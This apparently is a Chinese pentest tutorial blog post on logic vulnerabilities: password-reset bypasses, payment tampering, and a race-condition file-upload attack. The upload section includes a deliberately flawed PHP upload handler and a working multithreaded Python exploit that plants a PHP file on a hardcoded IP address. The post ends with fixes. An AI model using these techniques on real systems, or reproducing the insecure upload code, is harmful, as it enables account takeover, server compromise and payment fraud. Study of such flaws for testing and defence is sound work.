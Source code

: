 +++
date = "2016-07-31T18:43:49+08:00"
description = ""
draft = false
tags = ["逻辑漏洞"]
title = "逻辑漏洞"
topics = ["Pentest"]

+++

### 0x00 逻辑漏洞
逻辑漏洞是一种业务逻辑上的设计缺陷，业务流存在问题。
这里说一下密码找回漏洞、多线程条件竞争漏洞和支付漏洞。

### 0x01 密码找回漏洞
* 测试流程
    * 先尝试正确的密码找回流程，记录不同找回方式的所有数据包
    * 分析数据包，找到有效数据部分
    * 推测数据构造方法
    * 构造数据包验证猜测

* 分类
    * 邮箱找回
    ```
    一般是点击邮件中的链接后会转跳到修改密码的页面，需要分析链接的token构造，可以考虑是时间戳md5、用户名或邮箱和随机字符串md5等，一般是类似如下链接：
    http://domain/findpwd.php?u=xiaoming&token=MTIzQHFxLmNvbQ==
    http://domain/findpwd.php?id=374&token=2ad64bf14c714dbce88c7993663da7da
    当构造相应链接时就可以重置任意用户的密码
    ```

    * 手机短信找回
    ```
    短信找回一般就是4位或6位验证码，暴力猜测吧
    ```

    * 找回逻辑错误
    ```
    若恶意用户A用15123333333找回密码，此时收到验证码但不使用
    此时恶意用户A再用受害者B的手机号找回密码
    用户A在B的验证表单填入自己收到的验证码，发送
    此时跳转的修改密码页面修改的就是用户B的密码
    ```

    * 直接修改密码
    ```
    在修改密码时跳过选择找回方式，直接访问修改密码的页面进行修改
    ```
    
    * 本地验证
    ```
    随意输入一个验证码，开Burp抓包，forward，抓返回包，返回包里可能有一个flag字段，
    若flag的值为1则跳转到修改密码页面，所以只要修改返回包即可
    ```

    * 服务端将验证码返回给浏览器
    ```
    在点击获取验证码时，服务器会将验证码发送给浏览器，抓包即可
    ```

    * 验证码直接出现在url中
    ```
    当点击获取验证码时发出的请求链接中直接有code
    ```
    
    * 密保问题找回
    ```
    回答密保问题，有时一些答案就在html源码里
    ```

### 0x02 多线程条件竞争漏洞
多线程条件竞争漏洞是一种服务端的漏洞，服务端是并发处理用户请求的，若并发处理不当或相关操作逻辑设计有缺陷时就会产生一些安全问题。

* 文件上传

服务端可以sudo apt-get install inotify-tools安装监听文件的软件，执行inotifywait -m /var/www/html/admin监听admin文件夹中文件的变化
```php
//uploads.php代码如下，仅供测试：
<meta charset='utf-8'>
<?php
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";

    $filename = $_FILES['myfile']['name'];

    if (is_uploaded_file($_FILES['myfile']['tmp_name'])){
        if (!move_uploaded_file($_FILES['myfile']['tmp_name'],$path.$filename)){
            die("error:can not move!");
        }
    } else {
        die("error:not an upload file！");
    }

    echo "file upload success.file path is: ".$path.$newfile."\n<br />";

    if ($_FILES['myfile']['error']>0){
        unlink($path.$newfile);
        die("Upload file error: ");
    }

    $ext = array_pop(explode(".",$_FILES['myfile']['name']));
    if (!in_array($ext,$allowtype)){
        unlink($path.$newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
?>
```

* 简单利用代码如下：

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import threading
import time

"""
200个线程上传文件aa.php，同时200个线程同时请求aa.php，aa.php中内容为
<?php fputs(fopen("info.php","w"),"<?php phpinfo(); ?>") ?>，
只要aa.php被请求成功就会生成内容为<?php phpinfo(); ?>的php文件info.php
"""

is_exit = False

def create_info():
    global is_exit
    while not is_exit:
        url = "http://123.206.78.220/uploads/aa.php"
        resp = requests.get(url)

def put_file():
    global is_exit
    file = {'myfile':('aa.php',open('C:/Users/Administrator/Desktop/aa.php'),'application/octet-stream')}
    upload_url = "http://123.206.78.220/uploads.php"
    while  not is_exit:
        requests.post(upload_url,files=file)

def check_info():
    global is_exit
    print "start threading check info.php:"
    url = "http://123.206.78.220/uploads/info.php"
    while True:
        print "check info.php..."
        resp = requests.get(url)
        if resp.status_code == 200:
            is_exit = True
            print "create file info.php success."
            break

for x in xrange(1,200):
    t = threading.Thread(target=create_info)
    t.setDaemon(True)
    t.start()
    print "start create_into threading %d" % x

for x in xrange(1,200):
    t = threading.Thread(target=put_file)
    t.setDaemon(True)
    t.start()
    print "start put_file threading %d" % x


t = threading.Thread(target=check_info)
t.setDaemon(True)
t.start()
try:
    while t.isAlive():
        pass
    time.sleep(1)
except KeyboardInterrupt:
    print 'stopped by keyboard'
 ```

* 数据库操作

在数据库进行update、delete等操作时使用多线程请求，可在一次update时间内完成多次update，和上面的文件上传其实是一个原理

### 0x03 支付漏洞
```
攻击者通过修改交易金额、交易数量等从而利用漏洞，
如Burp修改交易金额、使交易数量为负数或无限大等。

* 在支付时直接修改数据包中的支付金额，实现小金额购买大金额商品
* 修改购买数量，使之为负数，可购买负数量商品，从而扣除负积分，即增加积分，
  或使购买数量无限大，无限大时则程序可能处理出错，从而实现0金额支付
* 请求重放，在购买成功后重放请求，可实现"一次购买对此收货"
```

### 0x04 漏洞修复
* 对于密码重置漏洞，可以使用复杂的token，使之不可被预测
* 对于密码重置漏洞，校验refer，不使用本地校验等
* 对于多线程竞争漏洞，文件移动一定在一切判断之后，对于数据库则可以设置锁
* 对于支付漏洞，主要就是签名了，或者https

